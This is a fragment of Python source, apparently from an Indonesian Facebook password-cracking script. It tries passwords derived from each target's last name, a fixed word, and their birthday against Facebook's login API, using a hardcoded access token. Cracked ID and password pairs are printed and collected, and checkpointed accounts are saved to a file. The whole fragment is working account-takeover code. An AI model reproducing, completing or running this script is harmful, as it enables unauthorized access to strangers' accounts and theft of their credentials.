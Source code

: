 							cek.write("ID:" +user+ " Pw:" +pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = b['last_name'] + '123'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q:
								print '\x1b[1;96m[✓] \x1b[1;92mBERHASIL'
								print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m    : \x1b[1;92m' + b['name']
								print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m      : \x1b[1;92m' + user
								print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;92m' + pass3 + '\n'
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[1;96m[✖] \x1b[1;93mCEKPOINT'
									print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m    : \x1b[1;93m' + b['name']
									print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m      : \x1b[1;93m' + user
									print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;93m' + pass3 + '\n'
									cek = open("out/super_cp.txt", "a")
									cek.write("ID:" +user+ " Pw:" +pass3+"\n")
									cek.close()
									cekpoint.append(user+pass3)
								else:
									pass4 = 'Bangsat'
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										print '\x1b[1;96m[✓] \x1b[1;92mBERHASIL'
										print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m    : \x1b[1;92m' + b['name']
										print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m      : \x1b[1;92m' + user
										print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;92m' + pass4 + '\n'
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											print '\x1b[1;96m[✖] \x1b[1;93mCEKPOINT'
											print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m    : \x1b[1;93m' + b['name']
											print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m      : \x1b[1;93m' + user
											print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;93m' + pass4 + '\n'
											cek = open("out/super_cp.txt", "a")
											cek.write("ID:" +user+ " Pw:" +pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											birthday = b['birthday']
											pass5 = birthday.replace('/', '')
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												print '\x1b[1;96m[✓] \x1b[1;92mBERHASIL'
												print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m    : \x1b[1;92m' + b['name']
												print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m      : \x1b[1;92m' + user
												print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;92m' + pass5 + '\n'
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '\x1b[1;96m[✖] \x1b[1;93mCEKPOINT'
													print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m    : \x1b[1;93m' + b['name']